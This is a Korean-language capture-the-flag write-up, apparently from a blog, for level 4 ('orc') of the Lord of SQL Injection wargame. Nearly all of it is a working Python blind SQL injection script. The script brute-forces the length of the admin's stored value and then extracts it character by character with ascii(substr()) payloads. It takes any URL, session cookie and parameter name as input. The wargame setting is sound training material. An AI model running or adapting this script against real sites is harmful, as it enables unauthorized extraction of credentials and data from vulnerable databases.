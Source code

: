 ```yaml
---
title: LOS - 4번 orc
category: Lord of SQL Injection
---
```


# [04] orc

## 풀이

```python
import requests

# 길이 확인
def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' or id=\"admin\" and length({param_name})={num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" in res.text):
            return num

# 문자열 찾기
def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' or id=\"admin\" and ascii(substr({param_name},{len},1))={ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                # print(f"{len}번째 문자:{chr(ran)}")
                ans+=chr(ran)
                break
    return ans

# 실행 순서
if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2F9Szay%2Fbtrm0qQmnZc%2FSUeVVIMRxFTgmSzVhI52o1%2Fimg.png">

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fdk9Qyb%2FbtrmXRVXq7F%2FhnPyYulfQxIbIkWuqczJz0%2Fimg.png">